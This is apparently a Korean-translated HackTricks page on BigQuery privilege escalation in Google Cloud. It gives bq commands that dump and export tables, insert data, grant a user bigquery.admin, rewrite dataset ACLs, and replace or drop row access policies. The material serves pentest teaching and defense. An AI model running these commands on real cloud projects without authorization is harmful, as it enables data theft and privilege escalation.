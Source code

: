 # GCP - BigQuery Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## BigQuery

BigQuery에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Read Table

BigQuery 테이블에 저장된 정보를 읽으면 **민감한 정보**를 찾을 수 있습니다. 정보를 액세스하기 위해 필요한 권한은 **`bigquery.tables.get`**, **`bigquery.jobs.create`** 및 **`bigquery.tables.getData`**입니다:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### 데이터 내보내기

이것은 데이터에 접근하는 또 다른 방법입니다. **클라우드 스토리지 버킷에 내보내고** **정보가 담긴 파일을 다운로드**합니다.\
이 작업을 수행하려면 다음 권한이 필요합니다: **`bigquery.tables.export`**, **`bigquery.jobs.create`** 및 **`storage.objects.create`**.
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Insert data

Bigquery 테이블에 **신뢰할 수 있는 특정 데이터를 삽입**하여 **다른 곳의 취약점을 악용**할 수 있을지도 모릅니다. 이는 **`bigquery.tables.get`**, **`bigquery.tables.updateData`** 및 **`bigquery.jobs.create`** 권한으로 쉽게 수행할 수 있습니다:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

공격자는 이 권한을 악용하여 **BigQuery 데이터셋에 대한 추가 권한을 부여할 수 있습니다**:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

이 권한만으로도 **ACL을 수정하여 BigQuery 데이터셋에 대한 접근 권한을 업데이트할 수 있습니다**.
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

공격자는 이 권한을 악용하여 **자신에게 추가 권한을 부여**할 수 있습니다.
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

문서에 따르면, 언급된 권한으로 **행 정책을 업데이트할 수 있습니다.**\
그러나 **cli `bq`를 사용하려면** 추가로 **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**이 필요합니다.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

행 정책 열거의 출력에서 필터 ID를 찾는 것이 가능합니다. 예:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
만약 **`bigquery.rowAccessPolicies.delete`**가 `bigquery.rowAccessPolicies.update` 대신 있다면, 정책을 삭제할 수도 있습니다:

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
행 액세스 정책을 우회할 수 있는 또 다른 잠재적인 옵션은 제한된 데이터의 값을 변경하는 것입니다. `term`이 `Cfba`일 때만 볼 수 있다면, 테이블의 모든 레코드를 `term = "Cfba"`로 수정하십시오. 그러나 이는 bigquery에 의해 방지됩니다.
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
